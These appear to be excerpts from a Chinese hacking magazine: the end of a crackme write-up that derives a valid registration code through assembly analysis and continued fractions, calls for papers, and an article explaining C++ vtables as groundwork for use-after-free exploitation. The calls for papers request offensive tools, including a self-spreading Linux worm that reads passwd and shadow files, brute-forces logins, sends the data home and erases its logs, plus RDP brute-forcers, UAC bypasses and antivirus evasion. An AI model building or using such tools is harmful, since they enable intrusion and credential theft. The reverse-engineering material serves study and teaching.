004013D4    DD45 C0          fld qword ptr [ebp-40]
```

```asm
004013D7    DC5D B0            fcomp qword ptr [ebp-50]      ; 1 和 floor(注册码)比较
004013DA    DFE0               fstsw ax
004013DC    9E                 sahf
004013DD    77 0B              ja short 004013EA             ; 大于则失败，小于等于可以继续
004013DF    DD45 B8            fld qword ptr [ebp-48]
004013E2    DC5D B0            fcomp qword ptr [ebp-50]      ; floor(注册码)和 1.0*10e10 比较
004013E5    DFE0               fstsw ax
004013E7    9E                 sahf
004013E8    73 04              jnb short 004013EE            ; 小于等于可以继续，大于则失败

004013EA    31C0               xor eax, eax
004013EC    EB 40              jmp short 0040142E
004013EE    DD45 F8            fld qword ptr [ebp-8]
004013F1    D9FE               fsin
004013F3    DD5D A8            fstp qword ptr [ebp-58]       ; [ebp-58]=sin(floor(用户名))
004013F6    DD45 F0            fld qword ptr [ebp-10]
004013F9    D9FE               fsin
004013FB    DD5D A0            fstp qword ptr [ebp-60]       ; [ebp-60]=sin(floor(注册码))
004013FE    DD45 A8            fld qword ptr [ebp-58]
00401401    DC4D A0            fmul qword ptr [ebp-60]       ; sin(floor(用户名))*sin(floor(注册码))
00401404    DF2D 30304000      fild qword ptr [403030]       ; 1.0*10e16
0040140A    DEC9               fmulp st(1), st               ; 1.0*10e16*sin(floor(用户名))*sin(floor(注册码))
0040140C    83EC 08            sub esp, 8
0040140F    DD1C24             fstp qword ptr [esp]
00401412    E8 D1000000        call <jmp.&CRTDLL.floor>
00401417    83C4 08            add esp, 8
0040141A    DD5D 98            fstp qword ptr [ebp-68]
                               ; [ebp-68]=floor(1.0*10e16*sin(floor(用户名))*sin(floor(注册码)))
0040141D    D9EE               fldz
0040141F    DC5D 98            fcomp qword ptr [ebp-68]      ; [ebp-68]和 0 比较
00401422    DFE0               fstsw ax
00401424    9E                 sahf
00401425    75 05              jnz short 0040142C            ; !=则跳到失败，==则成功
00401427    31C0               xor eax, eax
00401429    40                 inc eax                       ; 成功 eax=1
0040142A    EB 02              jmp short 0040142E
0040142C    31C0               xor eax, eax                  ; 失败 eax=0
0040142E    C9                 leave
```

```
0040142F    C3    retn
```

这段反汇编代码的注释已经很详细，看之前先要对汇编语言和浮点指令比较熟悉。将这段反汇编指令翻译成 C 语言，则代码如下：

```c
int CheckMe(char* _Name, char* _Password)
{
    int _result = 0;
    double dName = floor(atof(_Name));
    double dPassword = floor(atof(_Password));
    double tmp = dName * dPassword;
    if (tmp < 0.00000000001 && tmp > -0.00000000001)
    {
        _result = 0;
    }
    else
    {
        if (dName >= 1.0 && dName <= _t1 && dPassword >= 1.0 && dPassword <= _t1)
        {
            if (0.0 == floor(sin(dName) * sin(dPassword) * _t2))
            {
                _result = 1;
            }
            else
            {
                _result = 0;
            }
        }
        else
        {
            _result = 0;
        }
    }
    return _result;
}
```

返回值为 1 表示用户名和注册码匹配，成功注册；返回值为 0 表示用户名和注册码不匹配，注册失败。从对应的 C 代码可以看出，最后要解决的问题就是求满足 `sin(x)*sin(y)*10^16 < 1` 的 x 和 y。

这个问题并不如想象中那么简单，我们需要使 `sin(x)` 和 `sin(y)` 尽可能接近于 0，也就是说 x、y 必须接近 π 的整数倍，并且 x、y 不能为 0。但是 π 是一个无理数，它的倍数也同样是一个无理数，不可能等于整数，也就是说，`sin(x)` 和 `sin(y)` 无法等于 0，只能尽可能接近 0。怎样使它们接近 0 呢？

我们知道像 `22/7` 或者 `355/113` 这些分数非常接近于 π，因此 22 和 355 就非常接近于 π 的整数倍。我们可以计算得到 `sin(22)=-0.008851309290` 和 `sin(355)=-0.00003014435336`。从数学的连分数理论可以知道两种 π 的连分数表示，分别如下：

$$\pi = a + \cfrac{1}{b + \cfrac{1}{c + \cfrac{1}{d + \cfrac{1}{e+\cdots}}}} \quad (1)$$

$$\pi = \cfrac{4}{1 + \cfrac{1^2}{2 + \cfrac{3^2}{2 + \cfrac{5^2}{2+\cdots}}}} \quad (2)$$

通过这种方式可以用分数来逼近 π。公式 1 参考自 Cronos 的文章，其中 a 是不大于 π 的最大整数，b 是不大于 `1/(π−a)` 的最大整数，其余以此类推。这是一个迭代分数形式。利用公式 1 进行计算的程序源码如下，其中函数 `CountAA()` 用于计算公式中的 a、b、c、d、e 等值，做一些初始化工作；函数 `CountBB()` 用于计算 PI 的近似分数形式。其中的 PI 指代 π 的实际值，需要预先定义，越精确越好，也可以采用一些专业的数学计算软件来进行这项工作。

```c
int aa[18] = {0}; // 用于存储公式中的 a,b,c,d,e 等值
double bb[20] = {0.0};

int CountAA()
{
    aa[0] = 3;
    bb[0] = 1.0 / (PI - aa[0]);
    for (int j = 1; j < 18; j++)
    {
        aa[j] = floor(bb[j - 1]);
        bb[j] = 1.0 / (bb[j - 1] - aa[j]);
    }
    return 0;
}
```

```c
int CountBB()
{
    double a = 0, b = 0, c = 0;
    for (int j = 1; j < 18; j++) // 循环，计算 PI 的分数形式
    {
        a = 1;
        b = aa[j];
        for (int i = j - 1; i > 0; i--)
        {
            c = a;
            a = b;
            b = c + b * aa[i];
        }
        a = a + 3 * b;
        printf("%d %lf/%lf~pi; sin(%lf)=%.10lf\n", j, a, b, a, sin(a));
    }
    return 0;
}
```

据此可以得到越来越接近于 π 的分数表示形式，如下所示：

- 1. 22/7 ~ pi; sin(22) = -0.008851309290
- 2. 333/106 ~ pi; sin(333) = -0.008821166114
- 3. 355/113 ~ pi; sin(355) = -0.0003014435336
- 4. 103993/33102 ~ pi; sin(103993) = -0.00001912933578
- 5. 104348/33215 ~ pi; sin(104348) = -0.00001101501758
- 6. 208341/66317 ~ pi; sin(208341) = 0.8114318195 × 10^(-5)
- 7. 312689/99532 ~ pi; sin(312689) = 0.2900699389 × 10^(-5)
- 8. 833719/265381 ~ pi; sin(833719) = 0.2312919416 × 10^(-5)
- 9. 1146408/364913 ~ pi; sin(1146408) = -0.5877799729 × 10^(-6)
- 10. 4272943/1360120 ~ pi; sin(4272943) = -0.5495794978 × 10^(-6)
- 11. 5419351/1725033 ~ pi; sin(5419351) = -0.3820047507 × 10^(-7)
- 12. 80143857/25510582 ~ pi; sin(80143857) = -0.1477284682 × 10^(-7)
- 13. 165707065/52746197 ~ pi; sin(165707065) = -0.8654781435 × 10^(-8)
- 14. 245850922/78256779 ~ pi; sin(245850922) = 0.6118065383 × 10^(-8)
- 15. 411557987/131002976 ~ pi; sin(411557987) = 0.2536716052 × 10^(-8)
- 16. 1068966896/340262731 ~ pi; sin(1068966896) = 0.1044633279 × 10^(-8)
- 17. 2549491779/811528438 ~ pi; sin(2549491779) = 0.4474494938 × 10^(-9)

各位读者可以利用公式 2 自行测试。再看获取输入框文本这一段，如图 5 所示，可以看出，输入框对文本长度做了限制，只会截取输入框中的前 9 个字符。



图 4 获取输入框文本

综上所述，按公式 1 方法求出的所有数据中，满足条件的只有 245850922 和 411557987，其他要么数字太长，要么正负号不满足条件。将这两个数字填入软件，注册成功，如图 6 所示。我刚开始就没有注意到字符串长度的限制，将 2549491779 和 6167950454 分别填入用户名、注册码，总是提示错误，后来拖入 OD 才发现问题。



图 5 注册成功

这个 Crackme 本身并不复杂，但是所用的数学原理值得研究，这里只给出了一组可用的用户名和注册码，大家可以通过别的方法试试多找出几组。

（完）

### 2014 年第 2 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：**675122680@qq.com**、**hadefence@gmail.com**，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。第 12 期的部分选题如下，完整的选题内容请见每月发送的约稿邮件。

## 1. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- 1) Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- 2) Windows UAC 低权限下，进入系统后提高账户权限的方法。

## 2. Windows 7 屏幕保护密码获取

非重启系统状态下，本机（非远程受控机）屏幕保护已启动，本地获取 Windows 7 屏幕保护密码的方法。

## 4. Linux 自动检测网络安全

要求：

- 1) 自动收集当前 Linux 系统的信息，如 uname、hosts、passwd、shadow、ifconfig、ps、netstat、history 等；
- 2) 通过我们提供的帐号密码库自动测试远程登录，若登录成功则将远程主机的地址、端口、帐号、密码以及从哪一台机器登录的等详细记录；
- 3) 将该程序自动复制到第 2 步成功登录的远程 Linux 主机，并重复 1、2、3 步操作；
- 4) 可以手动制定结束条件，比如测试主机的个数，目的是防止重复登录；
- 5) 将 1、2、3 中收集或记录的信息回传到一开始的主机；
- 6) 完成操作后清除相关的操作记录。

## 5. 暴力破解 3389 远程桌面密码

要求：

- 1) 针对 Windows 3389 远程桌面实现暴力破解密码；
- 2) 读取指定的用户名和密码字典文件；
- 3) 采用多线程；
- 4) 所有函数都必须判断错误值；
- 5) 使用 VC++2008 编译工具实现，控制台程序；
- 6) 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 7) 支持 Windows XP/2003/7/2008。

## 6. Web 服务器批量扫描破解

- 1）针对目标 IP 参数要求

10.10.0.0/16

10.10.3.0/24

10.10.1.0-10.255.255.255

- 2）针对目标 Web 服务器扫描要求

可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 APACHE 或者 IIS 等，具体参考如下：

- Tomcat
- Weblogic
- Jboss
- Apache
- JonAS
- WebSphere
- Lotus Server
- IIS(Webdav)
- Axis2
- Coldfusion
- Monkey HTTPD
- Nginx

- 3）针对目标 Web 服务器后台扫描

针对目标进行后台地址搜索。

- 4）针对目标 Web 后台密码破解

搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。

## 7. 木马控制端 IP 地址隐藏

要求：

- 1）在远程控制配置 server 时，一般情况下控制地址是写入被控端的，当木马样本被捕获分析时，可以分析出控制地址。针对这个问题，研究控制端地址隐藏技术，即使木马样本被捕获，也无法轻易发现木马的控制端真实地址。
- 2）使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

## 8. Web 后台弱口令暴力破解

说明：

针对国际常用建站系统以及自编写的 Web 后台无验证码登录形式的后台弱口令帐密暴力破解。

要求：

- 1）能够自动或自定义抓取建站系统后台登录验证脚本 URL，如 Word Press、Joomla、Drupal、MetInfo 等常用建站系统；
- 2）根据抓取提交帐密的 URL，可自动或自定义选择提交方式，自动或自定义提交登录的参数，这里的自动指的是根据默认字典；
- 3）可自定义设置暴力破解速度，破解的时候需要显示进度条；
- 4）高级功能：默认字典跑不出来的后台，可根据设置相应的 GOOGLE、BING 等搜索引擎关键词，智能抓取并分析是否是后台以及自动抓取登录 URL 及其参数；默认字典跑不出来的帐密可通过 GOOGLE、BING 等搜索引擎抓取目标相关的用户账户、邮箱账户，并以这些账户简单构造爆破帐密，如用户为 admin，密码可自动填充为域名，用户为 abcd@abcd.com，账户密码就可以设置为 abcd、abcd123 或 abcd123456 等简单帐密；
- 5）拓展：尽可能多搜集国外常用建站系统后台来增强该软件查找并定位后台 URL 能力；暴力破解要稳定，后台 URL 字典以及帐密字典可自定义设置等。

## 9. 编写端口扫描器

要求：

- 1）扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；
- 2）扫描方式采用多线程，并能设置线程数；
- 3）将功能编写成 dll，导出功能函数；
- 4）代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 5）尽量多做出错异常处理，以防程序意外崩溃；
- 6）使用 VC++2008 编译工具编写；
- 7）支持系统 Windows XP/2003/2008/7。

## 10. Android WIFI Tether 数据转储劫持

说明：

WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi‑Fi 热点），请参照 WIFI Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

要求：

- 1）开启 WIFI 热点后，对流经本机的所有网络数据进行存储；
- 2）不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；
- 3）针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

## 11. 突破 Windows 7 UAC

说明：

编写一个程序，绕过 Windows 7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- 1）Windows UAC 安全设置为最高级别；
- 2）系统补丁打到最新；
- 3）支持 32 位和 64 位系统。

## 2014 年征稿启示

《黑客防线》作为一本技术月刊，已经 14 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

#### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 PoC 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制的研究。

### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实例讲解。

### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实际例子均在此栏目发表，杜绝任何无亮点技术文章！

### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

#### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名，针对主流搜索引擎的多关键词排名的优化技术。

#### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

#### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

## 投稿格式要求：

- 1) 技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图 1”“图 2”；
- 2) 在稿件末尾请注明您的账户名、银行账号、以及开户地，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 3) 投稿方式和周期：采用 E-Mail 方式投稿，投稿 mail：hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另找他处。限于人力，未采用的恕不退稿，请自留底稿。**重点提示：**严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。
- 4) 稿费发放周期：稿费当月发放（最迟不超过 2 月），稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 5) 根据稿件质量，分为一等奖、二等奖、三等奖稿件，稿费标准如下：
  - 一等稿件　900 元/篇
  - 二等稿件　600 元/篇
  - 三等稿件　300 元/篇
- 6) 稿费发放办法：银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 7) 投稿信箱及编辑联系  
  投稿信箱：675122680@qq.com、hadefence@gmail.com  
  编辑 QQ：675122680

## 在攻与防的对立统一中寻求突破

### 《黑客防线》

2  
总第164期 2014

网站全新改版，欢迎访问：http://www.hacker.com.cn


- 利用UAF漏洞攻击虚表原理浅析
- 攻破新浪通行证登录验证实现自动登录
- 自编调试器结束金山毒霸
- Android系统进程保护浅析
- KeUserModeCallback原理概述及其InlineHook程序设计
- Android系统一次恶意软件攻防研究

## 《黑客防线》8期文章目录

总第164期 2014年

#### 漏洞攻防

- 利用UAF漏洞攻击虚表原理浅析（木羊）................................3
- 一句话密码破解获取某网站webshell（simeon）........................7

#### 编程解析

- KeUserModeCallback原理概述及其InlineHook程序设计（孙相辰）........10
- 攻破新浪通行证登录验证实现自动登录（耿靓）........................15
- 网络分析器使用完全接触（xfeng）................................20
- 自编调试器结束金山毒霸（李旭昇）................................31

### Android远程监控技术

- Android系统进程保护浅析（马智超）..............................35
- Android系统一次恶意软件攻防研究（马智超）......................38

- 2014年第9期杂志特约选题征稿................................43
- 2014年征稿启示................................................46

## 利用UAF漏洞攻击虚表原理浅析

文/图 木羊

UAF全名为Use-After-Free，我们在《浏览器Use After Free漏洞的成因剖析及利用》这篇文章中介绍过这是浏览器常见的漏洞，并且对它的成因进行了说明。本文将不再描述漏洞本身，而转为讨论利用UAF类漏洞的方法。

UAF类漏洞目前主流的利用方式为攻击虚表（V-Table）。漏洞利用通常的目的就是改变程序执行流，也即修改EIP寄存器中的数值。在常见的漏洞攻击中，改变程序执行流的方法有两种，一种为直接修改EIP的值，如堆喷射（heap spray），直接通过指令覆盖完成利用；另一种为间接修改EIP的值，如堆/栈溢出，它们并不产生指令数据，而是通过覆盖一些重要的数据结果，如返回地址或链表指针等，实现间接控制指令流。利用UAF漏洞攻击虚表属于后者，也即间接修改EIP中的值。

在介绍怎样攻击虚表之前，首先介绍什么是虚表？虚表是具有OO（Object-Oriented，面向对象）性质高级编程语言所特有的数据结构。翻开任何一本介绍任何一门OO编程语言的教材，一定会有“继承”和“多态”等字样，它们是OO编程语言的特征，相信无须赘述，但学过编译原理的同学，请进一步思考，这些特征该如何实现？答案是通过虚表。

虚表，又叫虚函数表，具体的实现过程可以写一篇论文和若干艰涩的名词，但总会让人觉得有点隔靴搔痒。这里我们通过反汇编的方法，直接通过调试器看看虚表是怎样运作的。首先写下实验代码：

```cpp
class OBJ
{
public:
    virtual void tstFunc() {}
};

class TSTOBJ:public OBJ
{
public:
    void tstFunc()
    {
        MessageBox(0, 0, 0, 0);
    }
};

main()
{
    OBJ *tst = new TSTOBJ();
    tst->tstFunc();
}
```

代码简洁得近乎丑陋，要是我做项目经理，看到手下这种命名方式，一定会毫不犹豫打出翔来，不过在这里言简意赅正是我要的效果，主要实现了两个类，一个是父类OBJ，它有一个虚函数tstFunc——看到“虚函数”三个字，联想到“虚表，又叫虚函数表”，是不是该有眼前一亮的感觉？另一个是继承OBJ类的子类TSTOBJ，实现了这个虚函数tstFunc，内容是一条参数全为0的MessageBox调用，这样写是有深意的，请先记住这一点。

最后是一个main函数，用来测试这两个类，有一点需要关注的，就是`OBJ *tst = new TSTOBJ()`这一句，用的是OBJ的类指针，指向TSTOBJ类的实例。这一句很重要，别看写虚表实现的论文大都博征旁引侃侃而谈，但往往忽略了编译器进化到现代，很多理论上存在的东西实际中是会被优化掉的（哪怕选择的是“不优化”的编译选项），半天找不到虚表是纸上谈兵者非常容易犯的错误，必须照这样写才能出现虚表。

现在掏出IDA，载入刚才编译好的程序。按照习惯，从main函数讲起，main函数反汇编代码如图1所示：



图1

IDA有很强的标记功能，是逆向工程的利器，这里为了让同学们更好地看到原始面貌，把我自己的标记全部删掉，只留最原始的。可以看到，IDA已经识别出了new操作符，在它下面两行，ebp+var_18就是OBJ的类指针。记好这点，往下看jz分支判断指令后的代码（图2）：



图2

这个分支判断稍微回溯，就能看出判断的是new操作符是否成功，从程序层面来看也即内存申请是否成功，成功往左，不成功往右。内存管理的坑就不跳了，直接默认为成功（通常情况下也是如此），看左边。首先是对`ecx`寄存器以OBJ的类指针赋值，这是一个标志性的操作。在OO编程语言编译之后，看到`ecx`寄存器，相当于看到了`this`操作符，指向的是类实例的内存地址，也即语法上的类本身。这种编译模板似乎已经成为一种约定俗成。

往下是一条CALL指令，这里相当于“构造函数”，是个打引号的构造函数，不是语法层面的构造函数，而是编译器层面的构造函数。学过OO编程语言的同学一定知道构造函数是类实例化后第一个调用的函数，负责完成一些初始化工作，但可以缺省，也即为空，什么也不干。这只是高级程序语言的“语法糖”，实际上，构造函数是一定不为空的，从编译的角度具体来说，构造函数是会固定完成一些工作，如果用户缺省，那么构造工作也就到此为止，如果写了，则只是后续加上。而固定完成的这一些工作，其中就有初始化虚表。

有了一些基本理念，现在可以跟进这个CALL，看看带引号的“构造函数”（图3）：

```asm
push    ebp
mov     ebp, esp
push    ecx
mov     [ebp+var_4], ecx
mov     ecx, [ebp+var_4]
call    sub_4010C0
mov     eax, [ebp+var_4]
mov     dword ptr [eax], offset off_4060B8
mov     eax, [ebp+var_4]
mov     esp, ebp
pop     ebp
retn
```

图3

看这段反汇编代码时，请随时记好，`ecx`相当于`this`，指向`new`操作符申请的内存地址，也是类实例所在的地址。这段代码有一系列赋值操作，但核心的内容可以简化为`mov eax, ecx`，接着只需要看`mov dword ptr [eax], 0x4060B8`。这一句，可以理解为类的实例化。

想看拗口的术语可以翻翻相关文章，我尝试用好理解的话说一遍：类，可以理解为一份“母版”，具体来说，是虚表的“母版”，通过一个静态的数据结构保存，从实现的角度来看，也可以理解成一个静态的“全局变量”。而所有的类实例，则是这份母版的“拷贝”。类实例化的过程，实际上可以理解为一个“复制”的过程，将这个静态的全局变量，复制到由`new`操作符所申请得到的内存空间中。

对应到本例，就是将`0x4060B8`处的静态全局变量，复制到`eax`，也即`ecx`，也即`this`所指向的内存空间中。为了动态演示这个过程，我们用OD调试一遍，可以看到`0x4060B8`的内存如下（图4）：



看到顶头的DWORD是一段地址，为`0x004010A0`。这是什么？找到这个地址（图5）：



图5

还记得前面那条“有深意”的MessageBox调用吗？`0x004010A0`就是它，准确来说，是tstFunc方法，是TSTOBJ类里的实例方法。看到这里，相信有的同学已经感觉到了什么，似乎虚表就像一条云里的龙，在前面的介绍里时隐时现。不着急，我们最后看一看类方法的调用（图6）：



图6

这一段是接着图2的跳转，这段代码纷纷乱乱，其实核心可以简写为两条：

- `mov eax, [ecx]`
- `call [eax]`

ecx前面已经反复强调过，指向对象的内存空间，相当于this。而第二句的调用，则相当于call了this指向的内存空间中的第一个dword，它的值是一个函数地址，也即this所指向的地址开头为函数指针，这就是虚表。

现在，我们可以捋顺一下了。

首先，是虚表的内容，毫无疑问，保存的是虚函数的地址，也即函数指针。其次，是虚表的地址，它一定位于类实例的数据结构中，准确来说是最前部，而类实例的内存地址由new操作符确定，从编译器的角度来看，这个地址保存在ecx寄存器中。最后，是虚表的使用，在调用某个类实例的方法时，会读取虚表中的函数指针，三点至此串成一线。

在这一篇里，我们介绍了虚表。那么，既然调用方法实质是读取虚表中的函数指针，是否可以通过修改虚表，从而实现间接控制执行流？当然可以！具体方法及原理，我将在后一篇文章进行介绍。

## 一句话密码破解获取某网站webshell

文/图 simeon

